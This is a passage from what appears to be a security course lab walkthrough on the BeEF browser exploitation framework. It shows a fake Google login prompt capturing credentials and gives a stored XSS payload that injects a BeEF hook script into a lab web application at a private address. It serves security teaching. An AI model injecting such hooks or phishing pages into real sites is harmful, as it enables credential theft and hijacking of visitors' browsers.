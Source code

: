      - After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.

     - A victim could easily mistake this for a real login prompt.

   - Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page. 
     - Username: `hackeruser`
     - Password: `hackerpass`

       ![wd_hw18](Images/wd_hw18.png)

   - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.

     ![wd_hw19](Images/wd_hw19.png)

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`
